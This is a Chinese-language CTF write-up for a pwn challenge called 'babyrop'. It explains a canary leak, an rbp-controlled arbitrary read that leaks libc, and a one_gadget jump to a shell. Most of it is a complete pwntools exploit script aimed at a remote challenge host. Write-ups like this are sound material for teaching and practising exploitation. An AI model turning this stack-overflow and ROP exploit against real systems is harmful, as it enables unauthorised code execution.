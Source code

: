 ```yaml
---
layout: article
pageview: true
key: 2021-12-11-meituan-pwn-wp
title: 美团CTF初赛Pwn题WP
author: Ch4rc0al
categories: 
  - WriteUps
tags: 
  - Pwn
  - CTF
---
```



<!--more-->
## babyrop

题目没有开`PIE`，for循环中可以溢出一位拿到`canary`，在`vul`函数中可以溢出至ret，我们可以返回到代码段`printf`附近的代码，其中`%s`的参数是通过`rbp-0x20`计算得到，我们可以在`vul`函数中溢出时指定`rbp`的值来实现任意地址读，我们读取`got`表或`bss`段相关内容都可以拿到`libc`地址，进而用`one_gadget`拿到shell

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p=process('./babyrop')
libc=ELF('./libc-2.27.so')
r=remote('123.57.207.81',24844)

local=0

if local!=1:
    p=r

leave_ret=0x0000000000400759
main=0x40075b
p_rdi=0x0000000000400913
p_rsi_r15=0x0000000000400911


p.send('a'*25)

p.recvuntil('a'*25)
canary=u64('\x00'+p.recvn(7))

log.info(hex(canary))
# passwd=0x64726f7773736170
# passwd=0x70617373776f7264
p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))


p.send('a'*24+p64(canary)+p64(0x601010+0x20)+p64(0x400818))

p.recvuntil('Hello, ')

addr=u64(p.recvn(6)+'\x00\x00')-libc.sym['_IO_2_1_stdout_']
log.info(hex(addr))

ogg=[324565 ,324658 ,1090588]
# p.send('\x00'*25)

# gdb.attach(p)

p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))

p.send('a'*24+p64(canary)+p64(ogg[0]+addr)*2)


p.interactive()
```

